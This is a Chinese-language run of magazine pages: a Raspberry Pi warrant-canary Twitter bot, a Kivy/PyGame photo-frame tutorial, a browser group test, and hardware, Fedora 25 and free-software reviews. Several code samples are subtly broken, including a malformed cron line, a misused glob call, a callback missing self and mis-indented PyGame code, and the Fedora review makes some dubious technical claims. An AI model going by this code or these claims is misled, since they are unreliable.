sudo apt-get update
```

以及

```bash
sudo apt-get upgrade
```

来更新 Raspbian。接着运行

```bash
sudo pip install twython requests requests_oauthlib
```

...以安装所有必要的软件。

### 06 创建 Python 脚本

在树莓派终端中，运行以下命令：

```bash
sudo nano canary.py
```

...来创建您的脚本。接下来粘贴以下内容：

```python
#!/usr/bin/env python
import sys
from twython import Twython

tweetStr = "I have not been subject to any government gagging orders and/or subpoenas at the time of this Tweet."

# Insert your API keys and access tokens here
apiKey = 'yourapikey'
apiSecret = 'yoursecret'
accessToken = 'youraccesstoken'
accessTokenSecret = 'youraccesstokensecret'

api = Twython(apiKey, apiSecret, accessToken, accessTokenSecret)

api.update_status(status=tweetStr)

print "Tweeted: " + tweetStr
```

将 “yourapikey” 等替换为来自 http://apps.twitter.com 页面的实际值。按 Ctrl-X，然后按 Y，最后按 Enter 保存并退出。

*   左图：输入密钥时，请确保引号内没有空格。

### 07 测试脚本

运行以下命令：

```bash
python canary.py
```

...以测试脚本。如果成功，它将显示一条消息，表明推文已发送。

### 08 设置您的金丝雀

除非您手动干预，否则搜索令状金丝雀应设置为每天发一条推文。在树莓派终端中运行以下命令：

```bash
sudo crontab -e
```

如果这是您第一次运行 crontab，请选择选项 2 以选择一个编辑器。滚动到底部并粘贴以下内容：

```cron
@ 0 * * * /usr/bin/python /home/pi/canary.py
```

*   左图：此命令将金丝雀设置为每天午夜发推。有关更多选项，请参阅 https://help.ubuntu.com/community/CronHowto。

### 09 在您的推文中添加照片（可选）

运行

```bash
sudo nano canary.py
```

...来编辑您的 Python 脚本。使用哈希符号（#）注释掉以 “tweetStr” 开头的那行，然后替换以下行：

```python
api.update_status(status=tweetStr)

print "Tweeted: " + tweetStr
```

...替换为：

```python
message = "No FBI here!"
with open('/home/pi/Downloads/image.jpg', 'rb') as photo:
    api.update_status_with_media(status=message, media=photo)
    print "Tweeted: " + message
```





### 搜索令状金丝雀合法吗？

搜索令状金丝雀据称所利用的法律漏洞尚未得到检验。2015 年，澳大利亚完全禁止了它们，其他国家也可能效仿，并威胁如果未维护金丝雀将予以惩罚。然而，如果没有在公开法庭上揭露原始搜索令状旨在压制的信息本身的存在，起诉将很困难。作为概念验证制作一个没问题，但您需要研究以确定在您所在地区实际将其用作禁令警告系统是否合法。

### 树莓派照片相框

使用一些 Python 代码和一个漂亮的显示屏幕，您可以将树莓派变成一个非常不错的照片相框。


Joey Bernard 是一位真正的文艺复兴人物，他的时间在制作家具、帮助研究人员解决科学计算问题和编写 Android 应用之间分配。

在上一篇文章中，我们探讨了使用 Kivy 作为跨平台图形界面框架，您可以将其用于树莓派。不幸的是，我们没有空间深入研究任何可能的用途。在这一期中，我们将探讨一种可能的用途，即在某些显示器上显示照片。这可能是在家中用家庭照片，或者是为企业或活动制作幻灯片。如果您没有机会阅读之前的文章，没关系。我们将回顾足够的基础知识，以便您现在可以起步。显然，您需要将物理显示器连接到树莓派以显示图像。有几种选择，例如官方 7 英寸触摸屏。您也可以使用任何接受 HDMI 作为输入的设备。您还需要树莓派在启动时启动 X11 服务器。默认情况下，树莓派应该这样做。但是，如果您禁用了 X11 服务器并且只使用控制台，您将需要重新启用桌面，或者重新安装操作系统以获得干净的开始。

第一步是确保 Kivy 包已安装在您的树莓派上。如果您运行的是 Raspbian，可以使用以下命令完成：

```bash
sudo apt-get install python-kivy python-kivy-examples
```

这还将安装一系列很好的示例，您可以将其作为进一步项目的起点。使用 Kivy 时，您需要子类化 App 类来创建图形界面。Python 脚本的核心将包含以下代码：

```bash
sudo pip install kivy
```

此核心代码中带有注释的部分是我们需要提取所有执行加载和显示图像工作的 Python 代码的地方。第一步是获取要作为照片相框一部分使用的图像文件列表。有几种不同的方法可以做到这一点。如果您只想使用子目录中的所有图像，可以使用这里的代码创建列表：

```python
#### get all images in a subdirectory
import os
from os.path import dirname, join
import glob

current_dir = dirname(__file__)
filelist = glob(join(current_dir, 'images', '*'))
```

这将获取名为 'images' 的子目录中的所有文件。如果您的图像分散在文件系统中，使用一个包含您想使用的每个文件位置的文本文件可能更好。在这种情况下，您需要接受以下代码：

```python
in_file = open('filelist.txt')
temp = in_file.readlines()
in_file.close()
filelist = []
for line in temp: 
    filelist.append(line.strip())
```

我们需要使用 strip 方法，因为文件对象的 readlines 方法在每行末尾包含换行符。我们需要在稍后加载图像之前移除这些字符。下一步是实际显示图像。最简单的方法是将它们逐个弹出在屏幕上。但这有点无聊。相反，我们可以使用可用的 Carousel 对象来处理图像从一个到另一个的过渡。以下代码展示了如何创建这种类型的显示。

```python
import kivy
from kivy.app import App
from kivy.uix.image import Image
from kivy.uix.carousel import Carousel
from kivy.clock import Clock

class PhotoFrameApp(App): 
    carousel = Carousel(direction='right', loop=True)
    def my_callback(self, dt):
        self.carousel.load_next()
    def build(self):
        # Use the filelist generation method of choice
        for curr_image in filelist: 
            image = Image(source=curr_image)
            self.carousel.add_widget(image)
        Clock.schedule_interval(self.my_callback, 2.5)
        return self.carousel

if __name__ == "__main__": 
    PhotoFrameApp().run()
```

### 为什么选择 Python？

它是树莓派的官方语言。请在 python.org/doc 阅读文档。

> “你通过子类化 App 类来创建图形界面”

在上面的代码中，carousel 对象被设置为循环。这意味着当到达图像列表的末尾时，它将简单地循环回到列表的开头，永远继续下去。下一部分定义了更新 carousel 的回调。它只是调用 carousel 的 'load_next()' 方法来显示列表中的下一张图像。在 'build()' 方法中，第一步是创建图像文件名列表。您可以使用之前建议的任一方法，或者您自己设计的方法。一旦有了那个列表，您就可以遍历每一个，并为它们中的每一个创建一个新的 Image 对象。这些新的 Image 对象使用 'add_widget()' 方法添加到 carousel 中。'build()' 方法的最后一步是使用 Clock 对象创建一个计划。使用 'schedule_interval()' 方法，这段代码将每 2.5 秒更换一次图像。这种方法作为起步很好，但如果您想要图像之间更有趣的过渡怎么办？这可以通过使用另一组称为 Screen 和 ScreenManager 的类来实现。如果您的图像列表没有占用太多 RAM，您可以简单地创建一个新的 Screen 对象


## 你能改用 PyGame 吗？

对于每张图像。以下代码演示了如何实现这一功能：

```python
import kivy
from kivy.app import App
from kivy.uix.image import Image
from kivy.uix.screenmanager import Screen, ScreenManager, FadeTransition
from kivy.clock import Clock

class PhotoFrame(App):
    def __init__(self):
        super(PhotoFrame, self).__init__()
        self.screen_manager = ScreenManager()
        self.transition = FadeTransition()
        self.screens = []
        self.curr_screen = None
        self.filelist = []
        self.build_filelist()
        self.build_screens()
        self.screen_manager.add_widget(self.curr_screen, 'current')
        self.root = self.screen_manager
        Clock.schedule_interval(self.my_callback, 2.5)

    def build_filelist(self):
        # Create the list of files in list filelist
        self.filelist = []
        for file in os.listdir('images/'):
            if file.endswith(('.jpg', '.jpeg', '.png', '.gif')):
                self.filelist.append('images/' + file)
        self.filelist.sort()

    def build_screens(self):
        # Create screens using filelist
        for file in self.filelist:
            screen = Image(source=file)
            screen.name = file
            self.screens.append(screen)
            self.screen_manager.add_widget(screen, screen.name)
        self.curr_screen = self.screens[0]

    def my_callback(dt):
        # Switch to next screen
        index = self.screens.index(self.curr_screen)
        index = (index + 1) % len(self.screens)
        self.curr_screen = self.screens[index]
        self.screen_manager.current = self.curr_screen.name
        self.screen_manager.transition = self.transition
        self.screen_manager.switch_to(self.curr_screen, direction='left')

if __name__ == '__main__':
    PhotoFrame().run()
```

如前所述，与之前的示例相比，创建屏幕并添加图像的过程要复杂一些。当你遍历图像文件列表时，需要创建一个新的 Image 部件。然后创建一个新 的 Screen 部件，并将 Image 部件作为子部件添加进去。最后一步是需要将这个新的 Screen 部件添加到类顶部创建的 ScreenManager 对象中。我们重用 `schedule_interval` 方法，使屏幕每隔 2.5 秒进行切换。不过，回调函数需要修改。ScreenManager 有一个名为 `current` 的属性，用于标识当前显示的屏幕。当你更改由 `current` 属性标识的内容时，两张图像将通过在创建 ScreenManager 对象时定义 的过渡方法进行切换。如果你使用的是 Kivy 的最新版本，有一个名为 `switch_to` 的新方法可用。在这种情况下，你不需要将 Screen 对象作为部件添加到 ScreenManager 对象中。`switch_to` 方法会移除当前显示的屏幕并添加新屏幕，同时应用正在使用的过渡方法。树莓派仓库中可用的 Kivy 版本较旧，因此我们使用了较旧的屏幕管理方法。之前的示例使用 `FadeTransition` 方法在屏幕之间进行切换。其他可用的过渡方法包括 `NoTransition`、`SlideTransition`、`SwapTransition`、`WipeTransition`、`FadeToTransition` 和 `RiseInTransition`。如果你希望图像显示拥有更多样化的效果，可以通过更改 ScreenManager 对象的 `transition` 属性来改变每张照片的过渡方法。这段代码仅用于显示图像，但这并不是你能做的唯一事情。你还可以创建一个交互式相框，用它来操作图片。如果你使用触摸屏作为显示设备，上述代码允许你通过左右滑动来显示其他图像。如果你移除 `Clock.schedule_interval` 命令，除非通过滑动更改当前显示的图像，否则图像显示将保持静止。此外，还有一个名为 `Scatter` 的部件，可以在将图片添加到屏幕对象之前将其加载。`Scatter` 类允许你使用多点触控来旋转、拉伸或缩小图像。如果你想创建一个相册应用程序而不是相框显示，这可能会非常有用。希望这能激发你对这个强大框架所能实现的功能产生兴趣。

当然，Kivy 并不是创建此图像显示的唯一框架。作为另一个示例，我们将看看如何使用 PyGame 在树莓派显示器上完成类似显示一系列照片的工作。

```python
import pygame
pygame.init()
display_width = 800
display_height = 600
gameDisplay = pygame.display.set_mode([display_width, display_height])
black = (0,0,0)
white = (255, 255, 255)
clock = pygame.time.Clock()
#### Create the filelist image list
def img_swap():
    gameDisplay.blit(filelist[i], (0,0))
    finished = False
    x = 0
    while not finished:
        for event in pygame.event.get():
            if event.type == pygame.QUIT:
                finished = True
        gameDisplay.blit(white)
        img_swap()
        pygame.display.update()
        if x == len(filelist)-1:
            x = 0
        else:
            x = x+1
        clock.tick(60)
    pygame.quit()
    quit()
```

如你所见，这段代码更加底层一些。注释行是放置代码的位置，该代码将创建名为 `filelist` 的列表，其中包含你希望用作显示一部分的所有图片的文件名。显示图像是一个两步过程。首先需要将窗口填充为白色，从而本质上擦除当前显示的图像。然后，`img_swap` 函数使用 `blit` 方法将图像数据复制到物理显示屏上。同样，为了保持代码简洁，我们使用 (0,0) 作为起点开始绘制图像。但这意味着所有图像都显示在左下角。你可能希望向该函数添加代码，以计算出用作原点并用于将图像置于窗口中心的坐标。PyGame 还有一个时钟对象，你可以用它来定期触发图像切换。


来自《Linux User & Developer》制作团队

#### # 《Python 书》

通过《Python 书》了解这门激动人心且多用途的编程语言。你将找到一份面向新编程人员的完整指南，旨在增强知识储备的精选项目，以及如何使用 Python 与树莓派合作的技巧——掌握 Python 所需的一切。


#### 也有...


#### 触手可及的海量内容

无论你热爱游戏、历史、动物、摄影、Photoshop、科幻还是介于其中的任何事物，Imagine Publishing 的每一本杂志和书刊都充满了专业建议和引人入胜的事实。


#### 今天购买你的副本

- 印刷版可在 www.imagineshop.co.uk 获取
- 数字版可在 www.greatdigitalmags.com 获取


### 评测

81 **团体测试** | 86 **Solwise PL-1200AV** | 88 **Fedora 25** | 90 **免费软件**


### 团体测试

### 网络浏览器

就现代开源网络浏览而言，Chrome 是否仍是最佳选择？

### Midori

Midori 被认为是最快、最尖端的浏览器之一，为用户提供最新的网络技术和扩展系统，以帮助定制浏览器。在很多方面，它与 Chrome 相当，但它是否做得足够多，从而摆脱其阴影并脱颖而出？

midori-browser.org

### Chrome

Chrome 背后的持续开发帮助它成为当今最大、使用最广泛的网络浏览器之一。将简单性与易用性相结合是其发展的核心，但它也推动了竞争对手的显著改进。

www.google.com

### Firefox

Firefox 声誉持续增长的原因之一在于其定制化选项。浏览器的许多部分都可以按你的需求进行调整，并因此产生了一些出色的衍生产品。然而，它能否在这次团体测试中占据榜首？

www.firefox.com

### QupZilla

QupZilla 引入了一些有趣的概念。它使用统一库模式，帮助你管理书签、历史记录和 RSS 订阅源在单个窗口内。此外，由于默认集成的 AdBlock，QupZilla 能否使其较大的竞争对手感到不安？

www.qupzilla.com


## Midori

### 轻量、快速，始终处于网页开发的最前沿



Midori 适用于多种搜索引擎，并附带安装程序，以便在必要时协助您切换。

### 浏览器设计

Midori 背后的代码非常棒，使其整体设计美观。从书签到标签页，一切都通过单一菜单控制，因此您不会发现任何需要导航的复杂窗口。最重要的是，其设计贯穿于每个 Linux 发行版，确保每次都能获得相同的体验。

### 网页性能

速度至关重要，我们敢断言它比 Chrome 更快。其核心是一个轻量级的 WebKit 渲染引擎，使加载速度极快。即使在图片和视频密集型的网页上，其表现也高于平均水平，因此它是一个出色的全能选手。Midori 充分展示了轻量级设计对性能的好处。

### 管理与设置

Midori 的许多核心设置非常适合定制隐私，但在浏览器安全方面提供的功能很少。这有点恼人，但这会抵消浏览器的轻量级构建。不过，我们确实喜欢 Midori 的书签套件，它可以用于定制不同的站点组合，甚至创建快速加载列表。

### 插件与附加功能

Midori 提供的较好的附加功能之一是其内置下载器，这是即时文件下载的理想搭配。它在处理媒体文件时可能有点笨拙，但这只是个小问题。其他附加功能选择有限，但 RSS 订阅管理器和拼写检查器对大多数用户都是有用的补充。然而，这里还有更多选项的空间。

### 总体评价

> 在速度方面，Midori 让其他浏览器望尘莫及，虽然缺少一些选项，但这是一个轻量级发行版，在大多数领域对 Chrome 的霸主地位构成了严峻挑战。

### Chrome

### 浏览器之王是否仍能保住其王冠？



扩展程序的使用各有不同，有些作为独立功能运行，另一些则提供当前应用的链接。

### 浏览器设计

从最初来看，Chrome 看起来是一个相对极简的浏览器，利用单一的书签管理器作为其唯一突出的显著特征。需要注意的是，当开始深入其菜单系统时，它会变得有点复杂，而这类系统有很多。不过，您会在这里发现良好浏览体验所需的一切。

### 网页性能

拥有 Google 的后盾对 Chrome 帮助巨大。无论您输入什么，它都能以最轻松的方式处理，无论其中的媒体内容如何。使用 Chrome 特别令人愉悦的地方在于它如何处理旧网站，现场检查损坏的代码并调整加载过程以适应它。

### 管理与设置

Chrome 拥有那里最好的书签管理标签页之一，使其能够整合到您的桌面及更远的地方。除此之外，其历史记录标签页功能丰富，有助于轻松管理以前访问过的网站，必要时甚至可以导出它们。然而，提供的选择量对新用户来说有点压倒性。

### 插件与附加功能

我们可以说 Chrome 的吸引力部分来自于其实验功能页面。这里有很多开发中的功能可以整合到您的浏览器中。当然，其中一些可能会使您的浏览器无法使用，但一些是极好的补充。除此之外，Chrome 网络商店有一些印象深刻的工具，也可以实施到浏览器中。

### 总体评价

> Chrome 仍然是那里最好的浏览器之一。凭借 Google 巨无霸的后盾，更新频繁且迅速，跟上最新必须拥有的网络趋势。

## Firefox

### Mozilla 的浏览器在其领域继续掀起波澜


- 附加组件允许您定制 Firefox 中一些核心功能的实际工作方式。它们的成功和可用性各不相同。

### 浏览器设计

在所有这里介绍的浏览器中，Firefox 需要最多的时间来适应。这并不是说它有多糟糕，但许多核心工具的位置与一些用户通常想到查找的位置不同。然而，浏览器的几个关键组件可以定制，与竞争对手相比这是一个巨大的加分项。

### 网页性能

Firefox 的性能通常令人印象深刻，但有时可能会感觉有点迟缓。这个问题的核心通常源于插件菜单，您需要密切关注它。尽管如此，Mozilla 的支持确实有助于 Firefox 作为对文件更友好的浏览器之一的声誉，因此将您的日常生活与网络整合比您想象的要容易。

### 管理与设置

通过 Firefox 内的一个菜单管理您的各个社交账户是一个特别的亮点，我们希望其他浏览器也能将其实施到他们的产品中。设置选择不如 Chrome 提供的功能那么全面，实际上我们更喜欢这样，但那些想要实验浏览器的人可能会感到失望。

### 插件与附加功能

Firefox 提供其隐私浏览与跟踪保护组合作为一站式工具，帮助您匿名浏览网页，在实践中，它效果极佳。我们也真的很喜欢其智能搜索系统，它试图利用您对搜索和站点访问的知识来推荐您可能想要查看和阅读的内容。

### 总体评价

> Firefox 的许多附加功能将是用户的一大动力，虽然它确实缺少我们希望看到的一些核心设置，但它仍然是一个高度可用的浏览器。

## QupZilla

### 新近登场，QupZilla 能提供出色的浏览体验吗？


- 原生广告屏蔽支持很棒，甚至更好的是用户可以按照自己的喜好和需求配置屏蔽器。

### 浏览器设计

QupZilla 的核心设计利用了许多这里介绍的其他浏览器的元素。这绝不是坏事，但很难确定哪些区域真正帮助它从人群中脱颖而出。极简设计易于导航，菜单系统易于识别，工具标注正确。我们只是希望这里能有一些更多原创性。

### 网页性能

使用 QupZilla 浏览网页是一种享受，加载速度不会被无意义的动画和其他多余的附加功能阻碍。然而，我们建议您避免使用自定义主题库，因为我们在尝试实施其中一个时发现了一些浏览器崩溃的问题。除此之外，一切都很好。

### 管理与设置

QupZilla 将书签、历史记录和 RSS 订阅整合到一个地方，摒弃了多个窗口。对于最终用户来说，这是一个有益的补充，允许在一个地方完全控制浏览器的输入和输出。另一个不错的补充是从其他浏览器导入书签的能力，尽管有时它有点 bug。

### 插件与附加功能

QupZilla 没有太多的附加功能可说，但其中一些脱颖而出。集成的广告屏蔽软件是浏览器的一个重点功能，使用户能够识别他们希望阻止显示广告的站点。还有一个自命的“速度拨号”，可用于更快地加载网页，但同样，测试期间它有点 bug。

### 总体评价

> 尽管有一些积极因素，QupZilla 在其他领域仍有一些烦恼。我们必须指出，这仍然是一个不断增长的项目，我们建议在未来几个月密切关注它。

## 简评：对比我们的评价

| 类别 | Midori | 得分 | Chrome | 得分 | Firefox | 得分 | QupZilla | 得分 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| **浏览器设计** | 简洁清爽的设计在多个 Linux 发行版上表现良好 | 9 | 起初极简，但在挖掘设置时过于复杂 | 7 | 其设计与其余的略有不同，可能需要一点时间来适应 | 6 | 著名浏览器功能的混合赋予 QupZilla 整体良好的外观 | 7 |
| **网页性能** | 得益于其轻量级构建特性，能够实现快速加载时间 | 9 | 轻松处理任何任务，特别是缺乏高级代码的旧网站 | 9 | 虽然将文件整合到 Firefox 中很简单，但有时可能会感觉有点迟缓 | 6 | 浏览速度快，只要避免充满减速问题的自定义主题 | 8 |
| **管理设置** | 为隐私定制，但在大部分情况下缺乏核心浏览器安全性 | 7 | Chrome 拥有那里最好的书签和历史记录管理窗口之一 | 8 | 设置比其他浏览器更精致，仅展示最佳选项 | 9 | QupZilla 将您的书签、RSS 订阅和 Web 历史记录整合在一个可管理的菜单中 | 8 |
| **插件与附加功能** | 缺乏某些选项，但内置下载器是一个极好的额外奖励 | 7 | 手头有数百种实验功能，您可以实验 Chrome 的能力 | 10 | 便捷的隐私浏览和跟踪保护组合是一个特别的亮点 | 8 | 集成的广告屏蔽软件有用，但您可以找到更好的扩展 | 6 |
| **总体** | 这里那里有一些缺失，但这是我们要找的最接近 Chrome 击败者 | 8 | Chrome 与其他浏览器之间的差距正在缩小，但它仍然是这里的国王 | 9 | Firefox 是 Chrome 的坚实替代品，但我们更喜欢 Midori 提供的 | 7 | 一个功能性的浏览器，缺少其他浏览器拥有的惊叹因素 | 7 |

### 而获胜者是...

### Chrome

是的，Chrome 仍然是周围最好的浏览器，但它远不如以前那样优越。

进行这种团体测试的最棒的事情之一是能够亲眼看到对立浏览器中的重大发展如何迅速缩小与 Google 巨无霸的差距。Midori 是一个特别的亮点，提供了一种相对极简的浏览体验，同时拥有令人印象深刻的功能套件和快速加载时间。我们很乐意在六个月后重新审视这个团体，看看是否有什么变化。

目前来看，Chrome 仍然处于顶端。虽然其核心浏览体验并没有什么特别之处，但嵌入的附加功能真正使其与众不同。一方面，Chrome 网络商店近年来取得了长足的进步，现在有数千个扩展程序可供用户扩展他们的 Chrome 体验。最重要的是，其中许多都是完全免费的，并为您提供最常用应用的快速链接。

同样，对于那里新兴的折腾者来说，实验功能菜单仍然是一个隐藏的宝库。虽然其中许多功能尚未准备好供公众使用，但一些可以毫不费力地整合到浏览器中。


### 实施扩展程序以改进和扩展您当前的 Chrome 体验

更棒的是，其中一些可以编辑和定制到您自己的 Chrome 下载中，因此选择真的取决于您。

Chrome 在其时间里抵御了一些激烈的竞争，这证明了来自 Google 的持续支持使其保持在顶端。频繁的更新正在帮助填补任何漏洞，而不断增长的社区正在帮助在需要时提供即时反馈和错误报告。Midori 是一个值得的第二名，但要拉下国王还需要一些努力。

Oliver Hill


# -linux 用户与开发者

如需在**Linux 用户与开发者**上刊登广告，请拨打 01202 586442 联系我们。

### 一月特价 85 折

### #零碳云


优惠码：LUD1  
0800 808 5450  
netcetera.co.uk/cloud

### 英国服务器

### 专用服务器

每月仅 £39 起（不含增值税）

- 当日装机
- 24/7 英国免费电话支持
- 无长期合同


咨询我们的团队成员，或访问我们的网站了解更多信息  
0800 610 1 620 | www.ukservers.com

### 评测

### Solwise PL-1200AV2-PIGGY


**硬件**

**Solwise PL-1200AV2-PIGGY**

比 Wi-Fi 更快且更可靠，这款高级电力线适配器非常适合 4K 流媒体

**价格**：每个 £47  
**网站**：www.solwise.co.uk

**规格**：  
- Qualcomm Atheros QCA7500 芯片组
- 带噪声过滤器的直通插座
- 128 位 AES 链路加密

随着 4K 媒体流、家用服务器、游戏主机以及数量日益增多的联网设备变得普及，家庭网络面临着不断增长的带宽需求，而我们的墙壁依然厚如往常。虽然 AC Wi-Fi 路由器提供了一种增强信号的方式，以太网线也适合那些愿意在家里布线的人，但电力线适配器提供了第三种选择。对于不熟悉电力线技术（也称为 HomePlug）的人来说，这项技术将您家中的电力线路转化为网络，通过电线支持的较高频率传输数据包，而您的 50/60Hz 电力并未使用这些频率。Solwise 的 PL-1200AV2-PIGGY 电力线适配器表现不俗，承诺千兆速度，传输速率高达 1200Mbps。在我们的速度测试中，我们发现该适配器并未完全达到如此宏大的宣传指标，但仍然远超我们家庭的 Wi-Fi 速度，而且安装过程简单得不能再简单了。

PL-1200AV2 使用了专为电力线设计的最新 Qualcomm Atheros QCA7500 芯片组，提供增强的处理能力，采用 MIMO（多输入多输出）技术，提供八个空间流，这与 AC 路由器相同。这意味着它拥有更多的频谱带宽可供利用，从而能够传输更大的数据流，使其成为观看 4K Netflix 的理想选择。PL-1200AV2 还拥有两个千兆以太网端口，因此您可以从单个适配器上运行多个设备。这些端口位于适配器的底部，从审美角度看可能更美观，但访问起来稍微有点不便。


> “它拥有更多的频谱带宽可供利用，从而能够传输更大的数据流，使其成为观看 4K Netflix 的理想选择”

与某些电力线配件不同，该适配器还配备了一个直通插座，因此您可以继续将其用作电源（显然，这就是“PIGGY”名称的由来；意为“搭便车”）。直通插座还经过了滤波处理，有助于减少电网噪声，如果您对此感到困扰的话。不过更重要的是，PL-1200AV2 的安全由 128 位 AES 链路加密支持，以防止窃听者和黑客入侵。然而，尽管一些价格相近的电力线适配器（包括 Devolo 和 TP-Link 的型号）内置了 Wi-Fi 发射器，以便您围绕插座创建热点，但 PL-1200AV2 缺少这一令人遗憾的功能。

得益于 QuickConnect 按钮，设置 PL-1200AV2 几乎是即插即用的。像任何电力线网络一样，您需要至少两个适配器（因此，若要开始使用 PL-1200AV2，预计需花费 £94，而不仅仅是 £47）。将其中一个插入离路由器最近的插座，然后使用其中一个以太网端口将其连接到互联网。将第二个适配器放置在家中您需要可靠互联网的任何位置。然后，您可以选择使用 Solwise 的免费安装软件来设置网络，但只需按下 PL-1200AV2 上的按钮进行配对，并观察 LED 灯闪烁以确认连接，这样会更简单。

正如我们所言，就实际性能而言，我们的速度测试结果远非包装盒上承诺的 1,200Mbps。我们其实也没预期能达到，因为那只是理论最大速度。实际速度为 385Mbps，与仅几年前电力线技术提供的 20 到 90Mbps 相比，我们仍认为这令人印象深刻。时延为 3ms，这对于在线游戏玩家来说是一个卖点。PL-1200AV2 还使用了增强的服务质量（QoS），因此它会优先分配多媒体负载（如在线游戏、4K 电视和 VoIP 通话）的带宽，以实现更流畅的流媒体体验。然而，电力线的优势并不真的在于速度，而在于距离。您可以将其中一个 PL-1200AV2 适配器放在一楼，另一个放在阁楼，而无需担心信号丢失。

Jack Parsons


### 优点
设置和配对轻松，它以合理的价格具备一些高端功能，并提供了令人印象深刻的性能

### 缺点
在我们的测试中，它远未达到 1,200Mbps 的最大速度。此外，您还需要至少购买两个适配器才能使其工作


### 总结
尽管它并未如其名称所宣称的那样，Solwise PL-1200AV2-PIGGY 仍提供了近 400Mbps 的速度，这依然令人难以置信地印象深刻。它的价格仅约为许多千兆电力线适配器的三分之一，同时仍提供高品质功能，包括其 Atheros 处理器、增加的加密功能以及增强的 QoS。

## Fedora 25


**发行版**

**Fedora 25**


### 内存
- 1GB

### 存储
- 10GB 磁盘空间（建议 20GB）

### 规格
- 1GHz 处理器（建议 1.4GHz）

### Fedora 的最新更新能否扭转对竞争的格局？

对于许多初次接触 Linux 的用户来说，Fedora 一直是引导他们探索这条道路的主要明星之一。它以高易用性和拥有出色的社区而闻名，持续的发展帮助它跻身于可下载的最佳发行版之一。其最新版本 Fedora 25 结合了新功能套件以及一些改进，以帮助增强核心稳定性。

一如既往，Fedora 发布了该发行版的三个版本，每个版本都针对特定用途进行了定制，并源自一个基础软件包。Fedora 25 Atomic Host（取代了 Cloud 版）、Server 和 Workstation 都有一些明显的增强。每个版本都使用一套底层基础功能，并以自己的方式使用它们。其中包含的一项功能是与 Docker 1.12 的集成，这终于使该功能迁移到了 Fedora。这是构建和运行基于容器的应用的理想解决方案，并受益于 Fedora 每个版本的低资源构建。早期版本 Fedora 的一个问题是其有时存在问题的系统编程语言，但很高兴地说，得益于 Rust 的引入，这已成为过去式。尽管 Rust 并未广为人知，但它的集成有助于消除之前面临的所有稳定性问题；我们必须说，这是另一个受欢迎的补充。


> Docker 1.12 集成终于迁移到了 Fedora

转到 Fedora Workstation，可以说最大的新增功能来自 GNOME 3.22。这里有很多细微的界面改进，我们特别喜欢全新的键盘设置工具。对于随时进行更改的开发者来说，这是一个有用的资源。窗口管理也得到了一些增强，虽然在外观上您可能很难发现真正的差异，但能够通过特定的快捷键组合来多选文件并系统性地编辑元数据，这证明是一个巨大的帮助。您现在还将找到对 MP3 文件的解码支持，但在我们试用期间，其最终结果似乎时有好时坏。幸运的是，用户可以通过软件中心找到可下载的替代方案。

Fedora Server 的 CoCaP 系统发生了多种变化，配有一个新的 SELinux 故障排除模块，以帮助诊断问题。由于 Server 整体的复杂性，该模块非常适合轻松地查找和修复故障。有几次我们依赖 SELinux 来查找问题，它都以娴熟的方式解决了问题。然而，关于它如何处理更高级的故障，评判仍未下定论。再深入挖掘一下，用户还可以找到 SSH 密钥的管理支持，使用户能够随时系统地跟踪连接的主机。我们发现该功能在最初使用时会出现一些减速，但据我们所知，这似乎更像是硬件故障，而非软件本身的问题。

Fedora Atomic 是 Fedora 的一个全新风味，第一印象是积极的。其中有多种方法可以帮助创建和部署基于容器的工作负载，与前面提到的 Docker 集成紧密相连。虽然这个版本可能缺少我们习惯的高品质 Fedora 打磨，但两周一次的更新周期是一个惊人且受欢迎的转变。我们将保留判断，直到第一个点更新发布。

我们必须说，Fedora 团队在这里做得非常出色。这些版本的每一个都提高了我们对 Fedora 能力的预期，尽管存在一些小缺陷，但它确实感觉像是一次近乎完美的更新。弃用 Fedora Cloud 并替换为 Fedora Atomic 是一个潜在的风险举动，但早期迹象表明 Atomic 绝对能胜任。如果您一直想体验 Fedora，现在正是完美的时机。初学者用户应该首先使用 Workstation 来熟悉 Fedora 提供的细微差别，而高级用户应该选择最适合他们的版本。

Oliver Hill

**优点**
大多数新增功能极大地改善了用户体验，错误修复帮助解决了以前的问题。

**缺点**
某些工具的集成时有好时坏，我们很希望在三个不同的 Fedora 25 版本之间看到更多的交叉融合。

**总结**
对 Fedora 品牌核心部分的更改远少于人们预期的，虽然没有任何一个是完美的，但每个单独的添加都值得花时间仔细查看。


## 审阅自由软件

### 即时战略游戏

#### 0 A.D. Alpha 21 尤利西斯

从迦太基人到罗马人，重写古代历史


如上：你从一个卫城起步，资源近在咫尺，但你能效仿古代雅典的成功吗？

- **优点**
  - 出色的画面、音效和游戏进程。提供在线多人游戏选项。定期改进和更新。
- **缺点**
  - 许多功能尚未实现，因此你可能还得玩一会儿《帝国时代》。
- **适合...**
  - 在假装学习历史的同时享受乐趣。
- [play0ad.com/](http://play0ad.com/)

如果你怀疑人类并不认真对待娱乐，看看开源游戏**协作开发**中投入的时间量就会明白。自 2009 年这款原本仅限受邀者获取代码的游戏重新采用 GNU GPL 许可证后，开发速度加快，发布也变得更加规律。0 A.D. 仍处于 Alpha 测试阶段，但已具有极高的可玩性，非常值得投入一些时间，无论你是即时战略游戏爱好者，还是仅仅对这段历史时期感兴趣。

与计算机计算不同，日历是从 1 开始计数的，没有公元零年——因此获得了采用该名称的许可，并在游戏机制要求牺牲准确性的地方，对历史进行一些宽松的演绎。界面让你可以立即开始游戏，已经选好了合理的默认设置，因此你无需对尚不熟悉的内容做决定。

游戏内手册也会帮助你维持进展，当你调配资源、建立联盟，试图在阿提卡平原上取得胜利时。玩家需要密切关注军事行动和防御，同时积累足够的资源，从村庄发展到城镇——最终成为城市——并沿途解锁技术进步。

### 交互式绘图库

#### Quil 2.5.0

代码生成的艺术，而且也能在你的浏览器中运行

对于我们要评审的图形应用程序，通常会有截图，但既然 Quil 是一个**交互式绘图和动画**库，网页无法像访问项目主页或**运行软件**那样让它们栩栩如生。为什么呢？好吧，Quil 将 Processing——一种对艺术家友好的 API——与 Clojure 挖掘结合，这是一种如此热门的编程语言，你至少应该尝试一下，没什么理由再找借口了。

